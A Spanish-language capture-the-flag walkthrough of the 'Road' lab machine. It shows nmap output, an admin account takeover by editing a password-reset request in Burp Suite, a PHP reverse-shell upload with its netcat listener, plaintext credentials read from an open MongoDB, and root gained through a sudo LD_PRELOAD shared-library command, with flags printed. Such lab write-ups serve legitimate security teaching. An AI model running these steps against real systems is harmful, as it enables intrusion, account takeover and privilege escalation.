










La máquina Road simula un escenario realista de pentesting, centrado en la explotación de una aplicación web vulnerable. A través de técnicas de enumeración, manipulación de solicitudes HTTP y escalada de privilegios, se logra comprometer completamente el sistema, obteniendo tanto la bandera de usuario como la de root.
#nmap -sC -sV -T5 10.10.61.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-02 16:43 AST
Warning: 10.10.61.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.154.55
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
| 256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_ 256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Durante la fase de reconocimiento inicial, se identificaron únicamente dos puertos abiertos: uno correspondiente al servicio SSH y otro al servicio HTTP. El puerto SSH exponía una versión de OpenSSH propia de sistemas Ubuntu, lo cual indica un entorno Linux y deja abierta la posibilidad de explotación por credenciales débiles o configuración insegura.
Por otro lado, el servicio HTTP funcionaba sobre Apache 2.4.41 y presentaba un sitio web activo con el nombre “Sky Couriers”, lo cual sugería una aplicación personalizada que podría contener vulnerabilidades. Este servicio se convirtió en el principal vector de entrada, ya que ofrecía una interfaz accesible públicamente y susceptible de análisis más profundo.

Al acceder al sitio web expuesto en el puerto HTTP, se carga una plataforma corporativa denominada “Sky Couriers”. El diseño presenta una apariencia pulida y profesional, con una interfaz enfocada en el rastreo de envíos mediante números de guía (AWB/Waybill), lo que sugiere la existencia de lógica de backend procesando entradas del usuario. Este tipo de funcionalidad es un punto clave para evaluar posibles vulnerabilidades como inyecciones o validaciones deficientes.
En la esquina superior derecha, se destaca un botón rojo etiquetado como “Merchant Central”, lo cual podría indicar un portal exclusivo para usuarios autenticados, como administradores o comerciantes asociados. Este enlace representa un vector de interés potencial para explorar accesos restringidos o credenciales expuestas.

Durante la navegación del sitio, se accedió al apartado “Merchant Central”, el cual redirigía a una sección diferente del portal orientada aparentemente a comerciantes o personal autorizado. A pesar de su apariencia restringida, se encontró disponible una opción de registro que permitía la creación de una nueva cuenta sin requerir un código de invitación ni validación previa.
Este comportamiento representa un hallazgo significativo, ya que revela que el sistema permite la autoinscripción de nuevos usuarios sin ningún mecanismo de control o filtrado. Procedí a crear una cuenta utilizando un correo y credenciales arbitrarias, lo cual confirmó que la aplicación no implementa restricciones sólidas en esta etapa del flujo.

Tras completar exitosamente el registro y acceder con la cuenta recién creada, se mostró un panel administrativo sorprendentemente completo. A pesar de tratarse de un nuevo usuario sin validación, se obtuvo acceso directo a secciones críticas como la gestión de órdenes, subida de manifiestos, informes, administración de usuarios e incluso opciones de facturación.
Este panel no solo revela una aplicación con escasa segmentación de roles, sino también una superficie de ataque considerable, ya que muchas de las funciones disponibles podrían permitir interacciones con datos sensibles o flujos operativos reales. El acceso al módulo de usuarios y la opción "ResetUser" llaman especialmente la atención, ya que podrían estar relacionadas con la modificación o recuperación de cuentas existentes.

Nos movemos a nuestro perfil y encontramos una carga de archivo, lo que implica que podemos subir una reverse shell de php pero nos dice que solamente el administrador de la página puede utilizar dicha función y que se contacte con el admin atreves de su correo electrónico admin@sky.thm.

Lo que vamos hacer es cambiarle la contraseña al administrador con Burpsuite, activamos el FoxyProxy y la herramienta Burpsuite.

Una vez en Burpsuite cambiemos el correo electrónico por el del administrador de la página web que es admin@sky.thm y le damos a Forward 2 veces para que guarde los cambios.
Cerramos Burpsuite y desactivamos el Foxyproxy, cerramos nuestra sesión y volvamos al Login a logearenos pero esta vez con la cuenta del administrador.

Durante la revisión del código fuente HTML mediante Ctrl+U, observé una sección comentada que hacía referencia al endpoint /v2/profileimages/. Aunque estaba deshabilitada visualmente mediante comentarios HTML, esta ruta aún podía ser válida y accesible desde el servidor.
Al tratarse aparentemente de una carpeta donde se almacenan imágenes de perfil, identifiqué la posibilidad de que permitiera cargas de archivos. Esto la convirtió en un vector viable para intentar subir una reverse shell en PHP.


#nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.29.254] from (UNKNOWN) [10.10.61.137] 41998
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
14:21:45 up 18 min, 0 users, load average: 0.00, 0.06, 0.24
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
Utilicé una reverse shell en PHP del repositorio de Pentestmonkey, una herramienta confiable para establecer una conexión inversa desde el servidor comprometido hacia mi máquina atacante. Esta shell se ejecuta en entornos con soporte para funciones como fsockopen() o exec() y es útil en escenarios donde se logra la carga de archivos o la inyección de código remoto (RFI/LFI con log poisoning, por ejemplo). Una vez subida al servidor y accedida vía navegador, me permitió obtener una sesión interactiva en mi listener configurado con netcat.
www-data@sky:/$ cd /home
www-data@sky:/home$ ls
webdeveloper
www-data@sky:/home$ cd webdeveloper
www-data@sky:/home/webdeveloper$ ls
user.txt
www-data@sky:/home/webdeveloper$ cat user.txt
63191e4ece37523c9fe6bb62a5e64d45
www-data@sky:/home/webdeveloper$
Tras obtener la shell como el usuario www-data, navegué al directorio /home, donde encontré un único usuario local: webdeveloper. Al acceder a su carpeta personal, localicé el archivo user.txt, el cual contiene la flag de usuario.
www-data@sky:/home/webdeveloper$ ss -pltun
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
udp UNCONN 0 0 127.0.0.53%lo:53 0.0.0.0:*
udp UNCONN 0 0 10.10.36.241%eth0:68 0.0.0.0:*
tcp LISTEN 0 70 127.0.0.1:33060 0.0.0.0:*
tcp LISTEN 0 511 127.0.0.1:9000 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.1:27017 0.0.0.0:*
tcp LISTEN 0 151 127.0.0.1:3306 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
tcp LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
tcp LISTEN 0 511 *:80 *:*
tcp LISTEN 0 128 [::]:22 [::]:*
www-data@sky:/home/webdeveloper$
Ejecuté ss -pltun para identificar los servicios en escucha dentro del sistema comprometido. Observé múltiples puertos abiertos en localhost (127.0.0.1), lo que indica que solo son accesibles desde la propia máquina. Entre ellos destacan:
Este escaneo interno permite enumerar servicios no visibles desde el exterior y puede ser clave para la escalada de privilegios lateral o vertical, especialmente si alguno de estos da acceso a recursos sensibles o vulnerables.
www-data@sky:/home/webdeveloper$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("b2d0f356-80e6-44ae-ba11-8b8283b55cbd") }
MongoDB server version: 4.4.6
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
https://community.mongodb.com
---
The server generated these startup warnings when booting:
2025-05-04T14:03:54.715+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
2025-05-04T14:04:37.384+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
---
---
Enable MongoDB's free cloud-based monitoring service, which will then receive and display
metrics about your deployment (disk utilization, CPU, operation statistics, etc).
The monitoring data will be available on a MongoDB website with a unique URL accessible to you
and anyone you share the URL with. MongoDB may use this information to make product
improvements and to suggest MongoDB products and deployment options to you.
To enable free monitoring, run the following command: db.enableFreeMonitoring()
To permanently disable this reminder, run the following command: db.disableFreeMonitoring()
---
> show dbs
admin 0.000GB
backup 0.000GB
config 0.000GB
local 0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
>
Accedí al cliente de MongoDB directamente desde la shell con el usuario www-data, lo cual fue posible porque MongoDB no tiene habilitado ningún control de acceso (Access control is not enabled). Esto significa que cualquier proceso local puede interactuar libremente con la base de datos. Enumerando las bases de datos con show dbs, encontré una llamada backup, que contiene una colección de nombre user. Al listar los documentos con db.user.find(), encontré varias entradas, incluyendo una con campos "Name" y "Pass", donde el usuario "webdeveloper" tiene asociada la contraseña BahamasChapp123!@#.
www-data@sky:/home/webdeveloper$ su webdeveloper
Password:
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
env_keep+=LD_PRELOAD
User webdeveloper may run the following commands on sky:
(ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:~$
Utilicé el comando su para cambiar de www-data al usuario webdeveloper utilizando la contraseña obtenida previamente desde MongoDB. El cambio fue exitoso, lo que confirma que las credenciales extraídas eran válidas.
Al verificar los privilegios sudo con sudo -l, observé que el usuario webdeveloper puede ejecutar /usr/bin/sky_backup_utility con privilegios de root sin necesidad de contraseña (NOPASSWD). Esto representa un punto claro de escalada de privilegios vertical, ya que permite ejecutar un binario arbitrario como superusuario.
Este binario personalizado es el siguiente objetivo de análisis, ya que cualquier debilidad en su implementación (como llamadas inseguras a comandos del sistema, rutas relativas o inyecciones) podría explotarse para obtener una shell como root.
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ nano shell.c

Creé un archivo shell.c en /tmp con una payload diseñada para abusar de la variable de entorno LD_PRELOAD, la cual permite cargar bibliotecas compartidas antes de cualquier otra cuando se ejecuta un binario dinámico. El código define la función especial _init(), que se ejecuta automáticamente al cargar la librería.
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
6 | setgid(0);
| ^~~~~~
shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
7 | setuid(0);
| ^~~~~~
Procedí a compilar el código shell.c utilizando gcc con las opciones -fPIC y -shared para crear una biblioteca compartida (.so) que se pueda cargar dinámicamente. La opción -nostartfiles se usó para evitar que el enlazador agregue archivos de inicio estándar, asegurando que solo se compile el código relevante.
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
3a62d897c40a815ecbe267df2f533ac6
#
Ejecuté el binario sky_backup_utility con privilegios de root usando el flag LD_PRELOAD para cargar la biblioteca compartida shell.so que preparé previamente. Esto aprovechó la vulnerabilidad en el binario, permitiendo que el código en la función _init() se ejecutara al cargar la biblioteca.
Como resultado, se establecieron los IDs de usuario y grupo a 0 (root), y se lanzó una shell con permisos de superusuario. Esto me permitió acceder al directorio /root y obtener la flag de root en el archivo root.txt, confirmando que la escalada de privilegios fue exitosa.